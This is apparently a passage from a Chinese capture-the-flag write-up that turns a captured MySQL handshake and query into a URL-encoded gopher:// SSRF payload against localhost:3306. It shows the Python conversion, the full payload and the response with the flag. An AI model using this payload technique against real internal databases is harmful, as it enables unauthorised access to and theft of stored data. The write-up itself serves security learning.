 将`hex`复制下来后转为`URL encode`

```python
>>> a = "b300000185a23f00000000012d0000000000000000000000000000000000000000000000746573745f7573657200006d7973716c5f6e61746976655f70617373776f72640071035f6f731064656269616e2d6c696e75782d676e750c5f636c69656e745f6e616d65086c69626d7973716c045f70696404323836360f5f636c69656e745f76657273696f6e0731302e312e3239095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c 210000000373656c65637420404076657273696f6e5f636f6d6d656e74206c696d69742031 1d0000000373656c656374207365637265742066726f6d20746573742e666c6167 0100000001"
>>> a = a.replace(" ", "")
>>> a = [a[i: i+2] for i in range(0, len(a), 2)]
>>> '%'.join(a)
'b3%00%00%01%85%a2%3f%00%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%74%65%73%74%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%32%38%36%36%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%1d%00%00%00%03%73%65%6c%65%63%74%20%73%65%63%72%65%74%20%66%72%6f%6d%20%74%65%73%74%2e%66%6c%61%67%01%00%00%00%01'
```

最终payload:

`gopher://localhost:3306/_%b3%00%00%01%85%a2%3f%00%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%74%65%73%74%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%32%38%36%36%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%1d%00%00%00%03%73%65%6c%65%63%74%20%73%65%63%72%65%74%20%66%72%6f%6d%20%74%65%73%74%2e%66%6c%61%67%01%00%00%00%01`

回显：

```
N 5.6.40-logw�D@Uj6k<)��-�TLa#(=:LO's1mysql_native_password'def@@version_comment-L��Source distribution�.deftestflagflagsecretsecret-���"'&D0g3{G0ph1er_4nd_55rf_1s_1nt3rest1ng!}�" 
```